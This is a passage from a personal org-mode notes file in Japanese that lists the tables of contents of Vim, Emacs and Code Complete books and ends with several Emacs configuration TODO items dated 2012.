8-9 　各行のフィールドの並び順を変更する
8-10 　一覧の並び順を入れ替える
8-11 　連番を生成する
8-12 　条件にマッチする行にだけ Vim のコマンドを実行する
8-13 　外部プログラムを使用してフィルタリング処理する
8-14 　 Perl プログラムを使用してテキストを加工する
8-15 　 Python プログラムを使用してテキストを加工する
8-16 　 Vim エディタで標準入力をフィルターし標準出力に結果を出力する
Chapter09 　入力速度を改善する
9-1 　短縮入力を使用して入力量を減らす
9-2 　コマンドにマップを定義してプラグインの機能を実行しやすくする
9-3 　ユーザ定義コマンドを設定する
9-4 　 smartchr を使用して = の両端にスペースを楽に入力する
9-5 　ソースコード中の true ・ false をトグルで置き換える
9-6 　 altercmd でエイリアスを定義する
9-7 　 zencoding で高速に入力する
9-8 　 zencoding をより活用する
9-9 　入力を補完する
9-10 　 neocomplcache を使用して自動補完する
9-11 　 neocomplcache を設定する
9-12 　 neocomplcache の source を自作する
9-13 　 neocomplcache を使用してスニペット展開を行う
9-14 　 neocomplcache のスニペットを自作する
9-15 　 SKK 入力を使用する
Chapter10 　 unite.vim を使いこなす
10-1 　 unite.vim を使用して Vim のインタフェースを改善する
10-2 　 unite.vim のキーマッピングを知る
10-3 　 unite.vim の source を知る
10-4 　 unite.vim とプラグインを連携させる
10-5 　 unite.vim を本格的にカスタマイズする
10-6 　 unite.vim の buffer-name-option を知る
10-7 　 unite.vim の高度なトピック
10-8 　 unite.vim に自分の source を追加する
10-9 　 unite.vim の source ・ kind ・ action の概念を知る
10-10 　 unite.vim の高度なトピック（自作編）
10-11 　非同期の unite.vim source を作成する
***** emacs tec
1) プログラミング言語 elisp の基礎を知る
2) バッファとウィンドウによる表現方法を学ぶ
3) 関数を少しずつ覚えていく
4) オンラインヘルプの使い方を学ぶ
5) 応用的な知識をつける
6) Common Lisp マクロを使ってエレガントに表現する
7) テスト、デバッグ方法を知る
8) 実際に elisp で書いてみる
***** emacs 150
 3 ■■はじめに
 13 ■■本書を読む前に

 19 ■■■ Chapter01 　設定に必要な最低限の Emacs Lisp の知識
 20 ■本章に入る前の基礎知識
 22 ■ 1.1 　コマンド　～ Emacs に命令する
 24 ■ 1.2 　 S 式　～ Emacs Lisp の構成要素を知る
 26 ■ 1.3 　評価　～ Emacs Lisp プログラムを実行する
 28 ■ 1.4 　関数　～前置記法を知る
 29 ■ 1.5 　 M-x ielm 　～ Lisp 式（ S 式）を対話的に評価する
 31 ■ 1.6 　.emacs 　～ Emacs 起動時に自動で読み込むファイルを作成する
 32 ■ 1.7 　 require 　～ Emacs Lisp ファイルをロードする
 34 ■ 1.8 　 M-x byte-compile-file 　～ Emacs Lisp ファイルをバイトコンパイルする
 35 ■ 1.9 　 auto-async-byte-compile.el 　～自動バイトコンパイルをする
 36 ■ 1.10 　 M-x list-load-path-shadows 　～ load-path 優先度問題を解決する
 37 ■ 1.11 　 M-;　～コメントを処理する
 39 ■ 1.12 　 setq 　～変数に値を設定する
 40 ■ 1.13 　 defun 　～関数を定義する
 41 ■ 1.14 　 add-hook 　～特定のタイミングで呼び出される関数を登録する
 43 ■ 1.15 　 C-x C-e 　～テキストに埋め込まれた Emacs Lisp 式を評価する

 45 ■■■ Chapter02 　初期装備に必要な知識
 46 ■本章に入る前の基礎知識
 47 ■ 2.1 　 ddskk 　～日本語入力を行う
 49 ■ 2.2 　 auto-install.el 　～ Emacs Lisp インストーラを利用する
 52 ■ 2.3 　 ELPA 　～パッケージを簡単にインストールする
 53 ■ 2.4 　 sticky.el 　～大文字入力を楽にする
 54 ■ 2.5 　<f1>　～ Emacs に問い合わせする
 56 ■ 2.6 　日本語 info 　～日本語マニュアルを導入する
 57 ■ 2.7 　 info 　～ info ドキュメントを読む


 61 ■■■ Chapter03 　キーバインドについて
 62 ■本章に入る前の基礎知識
 63 ■ 3.1 　キーマップ～押されたキーに対してコマンドを探索する
 65 ■ 3.2 　 Ctrl ＋ 1 文字　～最重要コマンドを覚える
 67 ■ 3.3 　 Meta ＋英小文字　～重要コマンドを覚える
 69 ■ 3.4 　プレフィクスキー　～ 2 ストローク以上のコマンドを覚える
 71 ■ 3.5 　 define-key 　～キーマップを変更する
 73 ■ 3.6 　 define-key 　～ Ctrl ＋ 1 文字に割り当てられるキーを探す
 75 ■ 3.7 　 define-key 　～その他に割り当てられるキーを探す
 76 ■ 3.8 　 sequential-command.el 　～同じコマンドを連続実行したときの振舞いを変更する
 78 ■ 3.9 　 key-chord.el 　～キーボード同時押しでコマンドを実行する
 79 ■ 3.10 　 minor-mode-hack.el 　～マイナーモード衝突問題を解決する


 81 ■■■ Chapter04 　バッファ・ファイルを扱う
 82 ■本章に入る前の基礎知識
 83 ■ 4.1 　 ffap.el 　～現在位置のファイル・ URL を開く
 84 ■ 4.2 　 uniquify.el 　～ファイル名がかぶった場合にバッファ名をわかりやすくする
 85 ■ 4.3 　 iswitchb.el 　～バッファ切り替えを強化する
 87 ■ 4.4 　 recentf.el 　～最近使ったファイルを開く
 89 ■ 4.5 　 bookmark.el 　～ファイル内の特定の位置をブックマークする
 91 ■ 4.6 　 emacsclient 　～シェルから現在の Emacs にアクセスする
 93 ■ 4.7 　 tempbuf.el 　～使わないバッファを自動的に消す
 94 ■ 4.8 　 auto-save-buffers.el 　～ファイルを自動保存する
 95 ■ 4.9 　 C-x v v 　～バージョン管理システムに登録する
 97 ■ 4.10 　 C-x v =， C-x v u 　～バージョン管理システムで変更点を調べる・取り消す
 98 ■ 4.11 　 C-x v l 　～バージョン管理システムで変更履歴を見る
100 ■ 4.12 　 C-x C-f ， C-x d 　～ファイルリストからファイルを操作する
102 ■ 4.13 　 wdired.el 　～ディレクトリ内のファイル名を自由自在に編集する
103 ■ 4.14 　 tramp.el 　～リモートマシンのファイルに透過的にアクセスする
104 ■ 4.15 　 sudoedit 　～ root 権限でファイルを編集する


105 ■■■ Chapter05 　カーソル移動
106 ■本章に入る前の基礎知識
107 ■ 5.1 　文字・単語・行・文単位の移動　～矢印キーを使わずにカーソルを移動する
108 ■ 5.2 　 M-x transient-mark-mode 　～リージョンに色をつける
110 ■ 5.3 　 screen-lines.el 　～見かけの行でカーソルを移動する
111 ■ 5.4 　 C-s ， C-r 　～インクリメンタルサーチで対象文字列の位置にカーソル移動する
113 ■ 5.5 　 migemo.el 　～ローマ字のまま日本語をインクリメンタルサーチする
115 ■ 5.6 　 point-undo.el 　～カーソル位置を戻す
116 ■ 5.7 　 bm.el 　～カーソル位置に目に見える印をつける
117 ■ 5.8 　 goto-chg.el 　～最後の変更箇所にジャンプする


119 ■■■ Chapter06 　入力支援
120 ■本章に入る前の基礎知識
122 ■ 6.1 　 autoinsert.el 　～ファイル作成時にテンプレートを挿入する
123 ■ 6.2 　 redo.el 　～「やり直し」をカイゼンする
124 ■ 6.3 　 sense-region.el 　～矩形を選択しやすくする
126 ■ 6.4 　 M-/ 　～バッファから単語を補完する（動的略語展開）
127 ■ 6.5 　 yasnippet.el 　～略語から定型文を入力する
129 ■ 6.6 　 yasnippet.el 　～スニペットを定義する
132 ■ 6.7 　 yasnippet.el 　～スニペットを展開するコマンドを定義する
133 ■ 6.8 　 yasnippet.el 　～新規作成ファイルに自動でスニペットを展開する
134 ■ 6.9 　 yasnippet.el 　～スニペットをその場で定義して使う
136 ■ 6.10 　 M-x hippie-expand 　～略語展開・補完を行うコマンドをまとめる
138 ■ 6.11 　<f3>，<f4>　～キーボードマクロで操作を自動化する
140 ■ 6.12 　 M-x kmacro-save 　～キーボードマクロをコマンド化する
142 ■ 6.13 　再帰編集　～コマンド実行中に新たなコマンドを実行する
143 ■ 6.14 　 auto-complete.el 　～ IDE のような入力支援をする


145 ■■■ Chapter07 　検索・置換
146 ■本章に入る前の基礎知識
148 ■ 7.1 　 M-x re-builder 　～正規表現を対話的に作成する
149 ■ 7.2 　 M-x occur 　～バッファ内で正規表現にマッチする行を出力する
150 ■ 7.3 　 M-s o (isearch-occur) 　～インクリメンタルサーチからマッチ行一覧を作成する
151 ■ 7.4 　 M-%　～文字列を置換する
153 ■ 7.5 　 C-M-%　～正規表現置換をする
155 ■ 7.6 　 color-moccur.el 　～バッファ内（複数可）を検索する
157 ■ 7.7 　 moccur-edit.el 　～ color-moccur.el の結果を編集する
159 ■ 7.8 　 M-x grep 　～ grep プログラムの実行結果に飛ぶ
161 ■ 7.9 　 igrep.el 　～ grep のコマンドラインを打たずに grep 検索する
162 ■ 7.10 　 grep-a-lot.el 　～複数の*grep*バッファを使う
163 ■ 7.11 　 grep-edit.el 　～ grep 検索結果を編集する


165 ■■■ Chapter08 　 Emacs をもっと便利に
166 ■本章に入る前の基礎知識
167 ■ 8.1 　 col-highlight.el 　～現在桁をハイライトする
169 ■ 8.2 　 M-x highlight-regexp 　～正規表現にマッチした部分を自動ハイライトする
170 ■ 8.3 　 M-x follow-mode 　～ワイドディスプレイを有効活用する
171 ■ 8.4 　 w3m.el (emacs-w3m) 　～ Web ブラウザとして利用する
173 ■ 8.5 　 twittering-mode.el 　～ twitter を利用する
175 ■ 8.6 　 gist.el 　～ gist.github.com を利用する
176 ■ 8.7 　 navi2ch.el 　～ 2 ちゃんねるブラウザを利用する
178 ■ 8.8 　 rcirc.el 　～シンプルな IRC クライアントを利用する
179 ■ 8.9 　 yaoddmuse.el 　～ EmacsWiki を編集する
181 ■ 8.10 　 yaoddmuse.el 　～ Emacs Lisp ファイルを EmacsWiki にアップロードする
182 ■ 8.11 　 EmacsWiki svn リポジトリ　～ EmacsWiki のリポジトリを丸ごと取得する
184 ■ 8.12 　 M-x customize-group 　～ GUI で変数・フェイスをカスタマイズする



187 ■■■ Chapter09 　外部プログラム
188 ■本章に入る前の基礎知識
189 ■ 9.1 　 M-x shell 　～ Emacs でシェルを動かす
191 ■ 9.2 　 M-x dired-do-shell-command 　～ dired からシェルコマンドを実行する
192 ■ 9.3 　 M-! ， M-|　～シェルコマンドの実行結果を表示・貼り付けする
194 ■ 9.4 　 multi-shell.el 　～複数の shell バッファを利用する
195 ■ 9.5 　 M-x compile 　～ Emacs の中でコンパイラを動かす
196 ■ 9.6 　 M-x executable-interpret 　～スクリプトを実行する
197 ■ 9.7 　 M-x diff 　～ 2 つのファイルの相異点を出力する
198 ■ 9.8 　 shell-history.el 　～ Emacs 内のシェルコマンド実行履歴を保存する
199 ■ 9.9 　 multi-term.el 　～ Emacs で端末エミュレータを利用する


201 ■■■ Chapter10 　テキスト整形／テキスト処理
202 ■本章に入る前の基礎知識
203 ■ 10.1 　 text-adjust.el 　～日本語の文章を整形する
205 ■ 10.2 　 M-x sort-lines 　～行をソートする
207 ■ 10.3 　 C-x r t ， C-x r k ， C-x r d 　～引用マークを付けたり外したりする
208 ■ 10.4 　 boxes 　～コメントを目立たせる・装飾する
210 ■ 10.5 　 M-x align 　～桁揃えをする


213 ■■■ Chapter11 　 view-mode を徹底活用
214 ■本章に入る前の基礎知識
216 ■ 11.1 　 C-x C-r 　～ view-mode でファイルを開く
217 ■ 11.2 　 C-x C-q 　～ view-mode を有効・無効にする
218 ■ 11.3 　 define-key 　～ view-mode のキー割り当てを変更する
219 ■ 11.4 　 viewer.el 　～書き込み不能なファイルで view-mode から抜けないようにする
220 ■ 11.5 　 viewer.el 　～ view-mode のときに mode-line に色をつける
221 ■ 11.6 　 viewer.el 　～メジャーモードに合わせて view-mode のキーバインドを設定する
222 ■ 11.7 　 viewer.el 　～特定のファイル・すべてのファイルを view-mode で開く


223 ■■■ Chapter12 　 Emacs Lisp プログラミング支援
224 ■本章に入る前の基礎知識
225 ■ 12.1 　 C-M-f ， C-M-b ， C-M-d ， C-M-u ， C-M-SPC ， C-M-k ， C-M-t 　～ S 式・リストを編集する
227 ■ 12.2 　 C-M-a ， C-M-e ， C-M-h 　～関数間を移動・関数をマークする
228 ■ 12.3 　 paredit.el 　～括弧の対応を取りながら S 式を編集する
231 ■ 12.4 　 eldoc.el 　～ Emacs Lisp 関数・変数のヘルプをエコーエリアに表示する
232 ■ 12.5 　 C-x F ， C-x K ， C-x V 　～関数定義へジャンプする
233 ■ 12.6 　 usage-memo.el 　～*Help*バッファにメモを書き込めるようにする
234 ■ 12.7 　 M-x apropos 　～正規表現にマッチする変数名・関数名・フェイスを探す
236 ■ 12.8 　 M-x apropos-value 　～値にマッチする変数名を検索する
237 ■ 12.9 　 M-x apropos-documentation 　～ドキュメントにマッチするシンボルを検索する
238 ■ 12.10 　 M-x apropos-library 　～ライブラリの定義内容を知る
239 ■ 12.11 　 lispxmp.el 　～ Emacs Lisp 式の値をコメントで注釈する
240 ■ 12.12 　 edit-list.el 　～リスト変数の内容を編集する
241 ■ 12.13 　 el-expectations.el 　～ユニットテストを書く
243 ■ 12.14 　 batch-byte-compile 　～コマンドラインからバイトコンパイルする


245 ■■■ Chapter13 　プログラミング／文書作成支援
246 ■本章に入る前の基礎知識
247 ■ 13.1 　 open-junk-file.el 　～使い捨てのファイルを開く
248 ■ 13.2 　 summarye.el 　～バッファのサマリを表示する
250 ■ 13.3 　 text-translator.el 　～言語を自動判別して複数の Web 翻訳サービスを同時に使う
251 ■ 13.4 　 html-fold.el 　～ HTML ・ XML の要素を隠して見栄えをよくする
253 ■ 13.5 　 M-x ediff-files 　～ 2 つのファイルの相異点をハイライトする・取り込む
255 ■ 13.6 　 M-x ediff-merge-files 　～ 2 つのファイルをマージしたファイルを作成する
256 ■ 13.7 　 hideif.el 　～ C 言語のプリプロセッサを隠す
257 ■ 13.8 　 hideshow.el 　～ブロックを折畳む
258 ■ 13.9 　 M-x imenu 　～現在のファイルにある関数定義にジャンプする（言語非依存）
259 ■ 13.10 　 M-x which-func-mode 　～現在の関数名を常に表示する
260 ■ 13.11 　 M-x flymake-mode 　～リアルタイムにプログラミング言語の文法チェックをする
262 ■ 13.12 　 ipa.el 　～ファイルに直接書き込まずにメモをする
264 ■ 13.13 　 multiverse.el 　～ファイルのスナップショットを取る
265 ■ 13.14 　 M-.　～タグファイルを使って関数定義へジャンプする（言語非依存）
267 ■ 13.15 　 gtags.el 　～ GNU GLOBAL でソースコード解析を楽にする
269 ■ 13.16 　 fold-dwim.el 　～複数の折畳み・展開コマンドに統一的なインターフェースを提供する


271 ■■■ Chapter14 　 org-mode 　～統合文書作成環境
272 ■本章に入る前の基礎知識
274 ■ 14.1 　 M-RET ，<M-left>，<M-right>　～見出し・項目を入力する
275 ■ 14.2 　 M-x org-insert-heading-dwim 　～ 1 階層下・上の見出し・項目を入力する
276 ■ 14.3 　<M-up>，<M-down>　～行・見出し・リストを移動する
277 ■ 14.4 　 M-x org-remember 　～瞬時にメモを取る
280 ■ 14.5 　「|」， TAB 　～表を作成する
282 ■ 14.6 　 C-c C-t ，<S-up>，<S-down>　～ TODO リストを作成する
284 ■ 14.7 　 C-c C-s ， C-c C-d 　～予定日時、締切日時を設定する
286 ■ 14.8 　 C-c C-q ， C-c C-c ， C-c / T 　～タグを作成・検索する
288 ■ 14.9 　 C-c l ， C-c C-l 　～ハイパーリンクを作成する・辿る
291 ■ 14.10 　*bold* /italic/ _underline_ =code= +del+ 　～文書を装飾する
292 ■ 14.11 　「:」，#+BEGIN_EXAMPLE ～#+END_EXAMPLE 　～そのまま出力する
293 ■ 14.12 　 [/] ， [ ] ， C-c C-c 　～チェックリストを作成する
294 ■ 14.13 　#+INCLUDE:　～別なファイルを取り込む
295 ■ 14.14 　 C-c a 　～予定表を見る
298 ■ 14.15 　 C-c C-e 　～ HTML に変換する


301 ■■■ Chapter15 　 anything.el 　～すべてを統べるものとその仲間たち
302 ■本章に入る前の基礎知識
306 ■ 15.1 　<f1> m 　～ヘルプで使い方を覚える
307 ■ 15.2 　 C-p ， C-n ， RET ， C-v ， M-v 　～オブジェクトを選択する
309 ■ 15.3 　 RET ， TAB ， C-e ， C-j 　～アクションを実行する
310 ■ 15.4 　<left>，<right>， C-o 　～複数の情報源を扱う
311 ■ 15.5 　 M-x anything-for-files 　～ファイルを開くコマンドをまとめる
314 ■ 15.6 　 C-z （継続アクション）　～ anything バッファを閉じずにアクションを実行する
315 ■ 15.7 　 M-x anything-resume 　～直前の anything セッションを復元する
316 ■ 15.8 　 M-x anything-execute-anything-command 　～設定済み anything を試す
318 ■ 15.9 　 M-x anything-call-source 　～情報源を試す
319 ■ 15.10 　 descbinds-anything.el 　～キーバインドを調べる
321 ■ 15.11 　 M-x anything-complete-shell-history 　～シェルコマンドの履歴から補完
322 ■ 15.12 　 M-x anything-apropos 　～コマンド名・関数名・変数名・フェイス名検索をする
323 ■ 15.13 　 M-x anything-show-kill-ring 　～過去の kill-ring の内容を取り出す
324 ■ 15.14 　 M-x anything-lisp-complete-symbol-partial-match 　～ Emacs Lisp シンボルを補完する
325 ■ 15.15 　 M-x anything-grep 　～ grep 結果をさらに絞り込む
326 ■ 15.16 　 anything-c-moccur.el 　～インクリメンタルサーチと occur を合体する
328 ■ 15.17 　 C-c C-u 　～候補を再計算する
329 ■ 15.18 　 anything-other-buffer 　～ anything コマンドを定義する
331 ■ 15.19 　変数　～ anything をチューニングする


333 ■■■ Chapter16 　 anything.el プログラミング
334 ■本章に入る前の基礎知識
339 ■ 16.1 　 type 　～オブジェクトの型を宣言して情報源を作成する
341 ■ 16.2 　 init 　～情報源の初期化をする
342 ■ 16.3 　 candidates-in-buffer 　～バッファの行から情報源を作成する
345 ■ 16.4 　 candidates-file 　～ファイルの行から情報源を作成する
346 ■ 16.5 　 grep-candidates 　～ファイルの行から情報源を作成する（高速版）
347 ■ 16.6 　 candidates ， display-to-real ， real-to-display 　～候補の見た目を変更する
349 ■ 16.7 　 candidate-transformer ， filtered-candidate-transformer 　～候補全体を加工する
351 ■ 16.8 　 header-name 　～ヘッダを変更する
352 ■ 16.9 　 delayed ， requires-pattern 　～処理時間のかかる情報源を作成する
354 ■ 16.10 　 volatile 　～入力のたびに candidates 関数を実行する
355 ■ 16.11 　 persistent-action 　～継続アクションを指定する
357 ■ 16.12 　 anything-candidate-number-limit ， candidate-number-limit 　～候補数を変更する
358 ■ 16.13 　 dummy 　～パターンをそのまま候補にする
359 ■ 16.14 　 multiline 　～複数行にわたる候補を使う
361 ■ 16.15 　 type:line 　～特定の行番号へジャンプする情報源を作成する
362 ■ 16.16 　 headline 　～正規表現にマッチする行を出力する情報源を作成する
364 ■ 16.17 　 type:file-line 　～特定のファイルの行番号へジャンプする情報源を作成する
365 ■ 16.18 　 anything-marked-candidates 　～マークされた候補を得る
366 ■ 16.19 　 anything 　～ anything の呼び出し方を細かく制御する
367 ■ 16.20 　 anything-test-candidates 　～情報源をテストする
369 ■ 16.21 　 anything-debug-forms 　～デバッグをする
370 ■ 16.22 　 anything-attr ， anything-attrset ， anything-attr-defined 　～属性の値を参照・設定する
373 ■ 16.23 　 anything-compile-source-functions 　～ anything プラグインを作成する


375 ■■索引
380 ■■逆引き索引
***** code compile
■上巻

『 Code Complete 』への賛辞
はじめに

第 1 部　基礎を固める

　第 1 章　ソフトウェアコンストラクションへようこそ
　　 1.1 ソフトウェアコンストラクションとは
　　 1.2 なぜソフトウェアコンストラクションは重要か
　　 1.3 本書の読み方
　　 1.4 まとめ

　第 2 章　ソフトウェア開発への理解を深めるメタファ
　　 2.1 メタファの重要性
　　 2.2 ソフトウェアメタファの使用法
　　 2.3 一般的なソフトウェアメタファ
　　 2.4 参考資料
　　 2.5 まとめ

　第 3 章　 2 回測って、 1 度で切る：上流工程の必要性
　　 3.1 準備の重要性
　　 3.2 ソフトウェアの種類の特定
　　 3.3 準備：課題定義
　　 3.4 準備：要求
　　 3.5 準備：アーキテクチャ
　　 3.6 上流工程にかける時間
　　 3.7 参考資料
　　 3.8 まとめ

　第 4 章　コンストラクションの重要な決断
　　 4.1 プログラミング言語の選択
　　 4.2 プログラミング規約
　　 4.3 テクノロジの波に乗って
　　 4.4 主なコンストラクションプラクティス
　　 4.5 まとめ

第 2 部　高品質なコードの作成

　第 5 章　コンストラクションにおける設計
　　 5.1 設計の難題
　　 5.2 重要な設計概念
　　 5.3 構成要素の設計：ヒューリスティクス
　　 5.4 設計のプラクティス
　　 5.5 一般的な手法へのコメント
　　 5.6 参考資料
　　 5.7 まとめ

　第 6 章　クラスの作成
　　 6.1 クラスの基礎：抽象データ型（ ADT ）
　　 6.2 良いクラスインターフェイス
　　 6.3 設計と実装の問題
　　 6.4 クラスを作成する理由
　　 6.5 言語固有の問題
　　 6.6 クラスを超えて：パッケージ
　　 6.7 参考資料
　　 6.8 まとめ

　第 7 章　高品質なルーチン
　　 7.1 ルーチンを作成する理由
　　 7.2 ルーチンレベルでの設計
　　 7.3 良いルーチン名
　　 7.4 ルーチンの長さ
　　 7.5 ルーチンの引数の使用
　　 7.6 関数の使用に関する注意点
　　 7.7 マクロルーチンとインラインルーチン
　　 7.8 まとめ

　第 8 章　防御的プログラミング
　　 8.1 無効な入力への防御
　　 8.2 アサーション
　　 8.3 エラー処理テクニック
　　 8.4 例外
　　 8.5 バリケードによるエラーの被害の囲い込み
　　 8.6 デバッグエイド
　　 8.7 製品コードに防御的プログラミングをどれくらい残すか
　　 8.8 防御的プログラミングに対する防御
　　 8.9 参考資料
　　 8.10 まとめ

　第 9 章　擬似コードによるプログラミング
　　 9.1 クラスとルーチンの作成手順の概要
　　 9.2 擬似コードプログラミングプロセス（ PPP ）
　　 9.3 PPP を使ったルーチンの作成
　　 9.4 PPP 以外の方法
　　 9.5 まとめ

第 3 部　変数

　第 10 章　変数の使用
　　 10.1 データリテラシー
　　 10.2 変数宣言のガイドライン
　　 10.3 変数の初期化のガイドライン
　　 10.4 スコープ
　　 10.5 永続性
　　 10.6 バインディングタイム
　　 10.7 データ型と制御構造の関係
　　 10.8 1 つの目的に 1 つの変数
　　 10.9 まとめ

　第 11 章　変数名の力
　　 11.1 良い名前を選択するために
　　 11.2 特殊なデータの命名
　　 11.3 命名規則の力
　 　 11.4 略式の命名規則
　　 11.5 標準のプレフィックス
　　 11.6 短くて読みやすい名前の作成
　　 11.7 避けるべき名前
　　 11.8 まとめ

　第 12 章　基本的なデータ型
　　 12.1 数値全般
　　 12.2 整数
　　 12.3 浮動小数点数
　　 12.4 文字と文字列
　　 12.5 ブール変数
　　 12.6 列挙型
　　 12.7 名前付き定数
　　 12.8 配列
　　 12.9 ユーザー定義型の作成（型のエイリアス）
　　 12.10 まとめ
　　
　第 13 章　特殊なデータ型
　　 13.1 構造体
　　 13.2 ポインタ
　　 13.3 グローバルデータ
　　 13.4 参考資料
　　 13.5 まとめ

第 4 部　ステートメント

　第 14 章　ストレートなコードの構成
　　 14.1 順序が重要なステートメント
　　 14.2 順序が重要でないステートメント
　　 14.3 まとめ

　第 15 章　条件文の使用
　　 15.1 if 文
　　 15.2 case 文
　　 15.3 まとめ

　第 16 章　ループの制御
　　 16.1 ループの種類の選択
　　 16.2 ループの制御
　　 16.3 ループの作成─ 内から外へ
　　 16.4 ループと配列の対応付け
　　 16.5 まとめ

　第 17 章　特殊な制御構造
　　 17.1 ルーチンからの複数の return 文
　　 17.2 再帰
　　 17.3 goto 文
　　 17.4 特殊な制御構造の展望
　　 17.5 参考資料
　　 17.6 まとめ

　第 18 章　テーブル駆動方式
　　 18.1 テーブル駆動方式の概論
　　 18.2 直接アクセステーブル
　　 18.3 インデックスアクセステーブル
　　 18.4 段階型アクセステーブル
　　 18.5 テーブル参照のその他の例
　　 18.6 まとめ

　第 19 章　制御構造の問題
　　 19.1 論理式
　　 19.2 複合文（ブロック）
　　 19.3 null 文
　　 19.4 危険なほど深いネストの回避
　　 19.5 プログラミングの基礎：構造化プログラミング
　　 19.6 制御構造と複雑さ
　　 19.7 まとめ参考文献

索引
著者紹介

■下巻

『 Code Complete 』への賛辞
はじめに

第 5 部　コードの改良

　第 20 章　ソフトウェアの品質
　　 20.1 ソフトウェアの品質特性
　　 20.2 ソフトウェアの品質改善技術
　　 20.3 ソフトウェアの品質改善技術の相対的な効果
　　 20.4 品質保証はいつ行うか
　　 20.5 ソフトウェア品質の原則
　　 20.6 参考資料
　　 20.7 まとめ

　第 21 章　コラボレーティブコンストラクション
　　 21.1 コラボレーティブ開発プラクティスの概要
　　 21.2 ペアプログラミング
　　 21.3 公式なインスペクション
　　 21.4 その他のコラボレーティブ開発プラクティス
　　 21.5 コラボレーティブコンストラクションテクニックの比較
　　 21.6 参考資料
　　 21.7 まとめ

　第 22 章　デベロッパーテスト
　　 22.1 ソフトウェア品質におけるデベロッパーテストの役割
　　 22.2 デベロッパーテストへの推奨アプローチ
　　 22.3 テストの知恵袋
　　 22.4 典型的なエラー
　　 22.5 テストサポートツール
　　 22.6 テストの改善
　　 22.7 テスト記録の保管
　　 22.8 参考資料
　　 22.9 まとめ

　第 23 章　デバッグ
　　 23.1 デバッグの概要
　　 23.2 欠陥の検出
　　 23.3 欠陥の修正
　　 23.4 デバッグの心理学的考察
　　 23.5 デバッグツール
　　 23.6 参考資料
　　 23.7 まとめ

　第 24 章　リファクタリング
　　 24.1 ソフトウェアの進化の種類
　　 24.2 リファクタリング概論
　　 24.3 リファクタリングの詳細
　　 24.4 安全なリファクタリング
　　 24.5 リファクタリング戦略
　　 24.6 参考資料
　　 24.7 まとめ

　第 25 章　コードチューニング戦略
　　 25.1 パフォーマンスの概要
　　 25.2 コードチューニング入門
　　 25.3 脂肪や糖蜜の類
　　 25.4 測定
　　 25.5 繰り返し
　　 25.6 コードチューニング手法のまとめ
　　 25.7 参考資料
　　 25.8 まとめ

　第 26 章　コードチューニングテクニック
　　 26.1 ロジック
　　 26.2 ループ
　　 26.3 データ変換
　　 26.4 式
　　 26.5 ルーチン
　　 26.6 低水準言語への書き換え
　　 26.7 物事は変わったように見えても、実は変わっていない
　　 26.8 参考資料
　　 26.9 まとめ

第 6 部　システムの考察

　第 27 章　プログラムサイズが及ぼす影響
　　 27.1 コミュニケーションとチームの人数
　　 27.2 プロジェクトの規模の範囲
　　 27.3 プロジェクトの規模がエラーに及ぼす影響
　　 27.4 プロジェクトの規模が生産性に及ぼす影響
　　 27.5 プロジェクトの規模が開発作業に及ぼす影響
　　 27.6 参考資料
　　 27.7 まとめ

　第 28 章　コンストラクションの管理
　　 28.1 良いコーディングの奨励
　　 28.2 構成管理
　　 28.3 コンストラクションスケジュールの見積もり
　　 28.4 測定
　　 28.5 プログラマは人間である
　　 28.6 管理者の管理
　　 28.7 参考資料
　　 28.8 まとめ

　第 29 章　統合
　　 29.1 統合手法の重要性
　　 29.2 統合の頻度― フェーズ型とインクリメンタル型
　　 29.3 インクリメンタル統合戦略
　　 29.4 デイリービルドとスモークテスト
　　 29.5 参考資料
　　 29.6 まとめ

　第 30 章　プログラミングツール
　　 30.1 設計ツール
　　 30.2 ソースコードのツール
　　 30.3 実行可能コードのツール
　　 30.4 ツール指向の環境
　　 30.5 独自のプログラミングツールの作成
　　 30.6 ツールの理想郷
　　 30.7 参考資料
　　 30.8 まとめ

第 7 部　ソフトウェア職人気質とは

　第 31 章　レイアウトとスタイル
　　 31.1 レイアウトの基本
　　 31.2 レイアウトテクニック
　　 31.3 レイアウトスタイル
　　 31.4 制御構造のレイアウト
　　 31.5 ステートメントのレイアウト
　　 31.6 コメントのレイアウト
　　 31.7 ルーチンのレイアウト
　　 31.8 クラスのレイアウト
　　 31.9 参考資料
　　 31.10 まとめ

　第 32 章　読めばわかるコード
　　 32.1 外部ドキュメント
　　 32.2 ドキュメントとしてのプログラミングスタイル
　　 32.3 コメントを入れるか入れないか
　　 32.4 効果的なコメントのポイント
　　 32.5 コメントテクニック
　　 32.6 IEEE 規格
　　 32.7 参考資料
　　 32.8 まとめ

　第 33 章　個人の資質
　　 33.1 個人の資質は話題からずれているか
　　 33.2 知性と謙虚さ
　　 33.3 好奇心
　　 33.4 知的な誠実さ
　　 33.5 コミュニケーションとコラボレーション
　　 33.6 創造性と規律
　　 33.7 怠惰
　　 33.8 気にするほどのことはない資質
　　 33.9 習慣
　　 33.10 参考資料
　　 33.11 まとめ

　第 34 章　ソフトウェア職人気質とは
　　 34.1 複雑さの克服
　　 34.2 プロセスの選択
　　 34.3 人間が 1 番、コンピュータは 2 番
　　 34.4 言語の中へのプログラミング
　　 34.5 集中力を助ける規約
　　 34.6 問題領域に立ったプログラム
　　 34.7 落石注意
　　 34.8 反復、その繰り返し
　　 34.9 汝、ソフトウェアと信仰を結び付けることなかれ
　　 34.10 まとめ

　第 35 章　さらに情報を得るには
　　 35.1 ソフトウェアコンストラクションに関する情報
　　 35.2 コンストラクション以外のトピック
　　 35.3 定期刊行物
　　 35.4 ソフトウェア開発者の読書計画
　　 35.5 専門団体への参加

参考文献
索引
著者紹介

*** memo
**** TODO [#C] list-load-path-shadows の重複している file を削除

***** 結果
***** 背景 (問題点)
	  list-load-path-shadows を実行すると
      /usr/share/emacs23/site-lisp/ 以下の file が重複している
      為改善する
***** 対応方法
	  remove
***** 優先順位の根拠
	  起動に係るので慎重に
	  起動速度が遅くなっている可能性がある
***** 備考
***** time/ref
<2012-11-06 Tue> / cf.

**** TODO [#B] duplicate-line で yank-pop する

     1) 結果
     2) 背景 (問題点)
	    duplicate-line で挿入した後、編集するためにコピーして
        おいた物が yank できない。
     3) 対応方法
	    duplicate-line に defadvice する。
     4) 優先順位の根拠
	    よく使う為。
     5) 備考
     6) time/ref
        <2012-11-12 Mon> / cf. [[file:~/.emacs.d/init/test_init.el]]

**** TODO [#C] 閉括弧で indent

     1) 結果
     2) 背景 (問題点)
	    閉括弧の後に indent していることがる。
     3) 対応方法
	    self-insert を使って関数を作成
     4) 優先順位の根拠
	    容易。緊急性なし。
     5) 備考
     6) time/ref
        <2012-11-12 Mon> / cf. [[file:~/.emacs.d/elisp/mylisp/windmove-or-split.el::windmove%20down][file:~/.emacs.d/elisp/mylisp/windmove-or-split.el::windmove down]]

